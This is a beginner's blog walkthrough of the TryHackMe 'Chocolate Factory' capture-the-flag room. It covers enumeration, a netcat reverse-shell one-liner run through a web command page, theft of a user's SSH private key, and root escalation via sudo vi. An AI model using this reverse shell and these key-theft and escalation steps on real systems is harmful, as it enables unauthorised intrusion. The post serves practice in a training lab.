 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

## Enumeration 
 
     sudo nmap -sV -sC -v <ip>
     <br />
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result like look,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listerning  our system 
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   login with ssh charlie user
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
   
 ## Privilege Escalation  
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal and hit enter <br />
   Now root user <br >
   change charlie to root <br />
   
    su root
   
   
   list the files and run python file ,enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  

